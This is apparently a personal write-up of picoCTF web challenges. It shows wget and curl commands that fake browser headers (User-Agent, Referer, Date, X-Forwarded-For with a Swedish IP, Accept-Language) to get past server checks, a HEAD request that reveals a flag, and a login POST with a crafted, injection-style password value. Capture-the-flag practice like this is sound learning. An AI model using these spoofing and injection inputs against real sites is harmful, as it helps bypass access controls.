 # Change your browser agent

Probably the best way is to use some plugins in browser.

Actually just any way to change the user-agent field would be OK.

I am too lazy to do that right now, so just use plain good old `wget`

`wget --user-agent=picobrowser https://jupiter.challenges.picoctf.org/problem/50522/flag`

Then the HTML file contains the flag.

## More about wget and HTTP Header

More HTTP header from [Who are you?](https://play.picoctf.org/practice/challenge/142?category=1&page=1)

They keep adding more requirements: referer, time (Only in 2018), enable "Do not track" on my site, need to fake a Swedish IP (have to search one and use the `X-Forwarded-For` field) and finally user language (`Accept-Language`, does not accept * and I have to search the code of Swedish...)

`wget http://mercury.picoctf.net:52362/ --user-agent=picobrowser --referer="http://mercury.picoctf.net:52362/" --header="Date: Mon, 09 Mar 2018 08:13:24 GMT" --header="DNT: 1" --header="X-Forwarded-For: 103.81.143.0" --header="Accept-Language: sv-SE;" -d`

At least I learnt to add new line of the header by using another `--header=`...

## With curl

`curl -v --user-agent picobrowser --referer "http://mercury.picoctf.net:52362/" http://mercury.picoctf.net:52362/ --header "Date: Mon, 09 Mar 2018 08:13:24 GMT" --header "DNT: 1" --header "X-Forwarded-For: 103.81.143.0" --header "Accept-Language: sv-SE;"`

Output extract:

```text
* Connected to mercury.picoctf.net (18.189.209.142) port 52362 (#0)
> GET / HTTP/1.1
> Host: mercury.picoctf.net:52362
> User-Agent: picobrowser
> Accept: */*
> Referer: http://mercury.picoctf.net:52362/
> Date: Mon, 09 Mar 2018 08:13:24 GMT
> DNT: 1
> X-Forwarded-For: 103.81.143.0
> Accept-Language: sv-SE;
>
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 1062
<

```

### curl with HEAD method

`curl -vvv  http://mercury.picoctf.net:15931/index.php -I`

Output extract:

```text
* Connected to mercury.picoctf.net (18.189.209.142) port 15931 (#0)
> HEAD /index.php HTTP/1.1
> Host: mercury.picoctf.net:15931
> User-Agent: curl/7.64.0
> Accept: */*
>
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< flag: picoCTF{flag_for_aHEAD}
flag: picoCTF{flag_for_aHEAD}
< Content-type: text/html; charset=UTF-8
Content-type: text/html; charset=UTF-8
```

### curl with cookies

From the Web Gauntlet problem.

```bash
curl 'http://jupiter.challenges.picoctf.org:54319/index.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Cookie: PHPSESSID=XXXXfhjiXXXXp4ip4XXXXb8t06' --data-raw 'user=admin&pass=bocchi%27%3C%3E%27'
```
